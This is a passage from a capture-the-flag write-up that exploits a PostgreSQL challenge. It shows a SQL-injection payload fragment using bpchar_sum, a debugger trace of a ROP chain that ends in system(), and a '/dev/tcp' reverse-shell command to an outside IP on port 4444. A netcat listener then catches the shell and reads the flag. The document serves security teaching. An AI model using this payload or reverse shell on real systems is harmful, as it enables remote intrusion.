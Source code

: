 ```py
        b'aaaaaaaa' * 0x400000,
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

```c
   0x7f87a7523f6d <setcontext+125>    xor    eax, eax
 ► 0x7f87a7523f6f <setcontext+127>    ret                                  <0x7f87a750a766; iconv+198>
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a765 <iconv+197>         pop    rdi
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a752f3a0 <system>            test   rdi, rdi
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ rsp                             0x7f87995ce140 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
01:0008│ rbx rcx rdx rdi rsi r14 r15 rbp 0x7f87995ce148 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
02:0010│+008                             0x7f87995ce150 —▸ 0x7f87a750a765 (iconv+197) ◂— pop rdi
03:0018│+010                             0x7f87995ce158 —▸ 0x7f87995be068 ◂— '/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   '
04:0020│+018                             0x7f87995ce160 —▸ 0x7f87a752f3a0 (system) ◂— test rdi, rdi
05:0028│+020                             0x7f87995ce168 ◂— 0xaaaaaaaaaaaaaaaa
... ↓                                    2 skipped
```

Resume code execution and observe a connection to our machine:

```c
\root@localhost:~# nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on XXXXX.dynamic.chello.pl 49276
/bin/sh: 0: can't access tty; job control turned off
$ /readflag
rwctf{2db7c906-ca64-4348-bd2a-97ae482cef47}
```

Final exploit code can be found [here](./solve.py)

Writeup author: [Rivit](https://github.com/rivit98)
